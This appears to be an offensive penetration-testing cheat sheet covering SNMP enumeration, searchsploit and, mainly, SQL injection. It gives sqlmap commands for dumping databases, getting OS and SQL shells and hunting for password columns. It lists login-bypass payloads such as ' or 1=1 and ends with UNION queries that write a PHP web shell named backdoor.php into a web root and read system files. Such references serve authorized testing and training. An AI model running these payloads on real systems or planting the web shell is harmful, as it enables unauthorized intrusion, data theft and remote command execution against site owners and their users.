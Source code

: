 ## SNMP
- `snmp-check 10.10.10.10`  

## Exploits / Searchsploit
- Update Searchsploit
  `searchsploit -u`  
- Search exploit  
  `searchsploit $multiple $search $terms` 

## SQL Injection
SQLMap
- Use saved request from burp: (-p is parameter, can be removed if you add * to the param in the request file, remember to use force-ssl param!)  
  `sqlmap -r request.txt -p objectid --risk 2 --level 5`
  Note: risk level 3 could in some cases lead to updating all entries in a db! If you want to use this risk level, check the payloads in xml/payloads.xml!   
- Define the target DBMS and run the request through local proxy (e.g. burp). Show the schema of the DB:   
  `sqlmap --proxy http://localhost:8080 -r request --dbms="Microsoft SQL Server 2017" --schema --force-ssl`   
- SQLMap Crawl:  
  `sqlmap -u http://10.10.10.10 --crawl=1`   
- SQLMap Dump DB:  
  `sqlmap -u http://10.10.10.10 --dbms=mysql --dump`    
- SQLMap Shell:   
  `sqlmap -u http://10.10.10.10 --dbms=mysql --os-shell`   
- SQL Shell through UNION based SQL Injection in "TextBoxUsername" field:    
  `sqlmap -r request.txt -p TextBoxUsername --sql-shell --technique=U --force-ssl`    
- Search for columns with the name password    
  `python sqlmap.py -u "http://192.168.1.1/mypath/mypoorlywrittenapp.asp?SessionID=" --time-sec=1 --search -C 'password'`    

Bypasses  
  `' or 1=1;#`  (MySQL/MariaDB)
  `' or 1=1 LIMIT 1;#`  (MySQL/MariaDB) --> If e.g. login expects only one entry in returned query
  `' or 1=1 LIMIT 1 --`  
  `' or 1=1 LIMIT 1 -- -`  
  `' or 1=1 LIMIT 1#`  
  `' or 1#`  
  `' or 1=1 --`  
  `' or 1=1 -- -`  
  `id=1'+OR+1=1--#`   
  `id=1\n'+OR+1=1--#`   

Queries
- Upload php command injection file:  
  `union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'`  
- Load file:  
  `union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6` 

